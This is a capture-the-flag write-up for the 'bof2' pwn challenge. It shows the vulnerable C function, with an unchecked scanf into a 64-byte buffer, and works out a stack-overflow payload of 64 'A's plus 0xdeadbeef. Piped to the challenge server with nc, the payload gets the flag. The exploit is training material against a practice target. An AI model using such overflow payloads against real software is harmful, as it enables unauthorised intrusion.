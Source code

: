 # bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa

nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 64 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c (I guessed this was the `correct` variable as it is set to 0):

![Location of 'correct' variable](correct_location.png)

We can see this area on the stack (highlighted in yellow):

!['Correct' variable on the stack](stack1.png)

If we move the debugger on one step, we can see this area get zeroed:

!['Correct' variable set to zero](stack2.png)

We can also see that our `bof` array is at 0xffbab0cc (must be `bof` as it's being set up for use in the `scanf()`):

![Location of 'bof' array](bof_location.png)

If we send our 64 A characters in, we can clearly see this array on the stack:

![bof array filled with As](stack3.png)

We can also see that it sits right up against our `correct` variable, so we should be able to set `correct` to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:

![As and deadbeef](stack4.png)

Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
````

This worked, and gave me the flag.
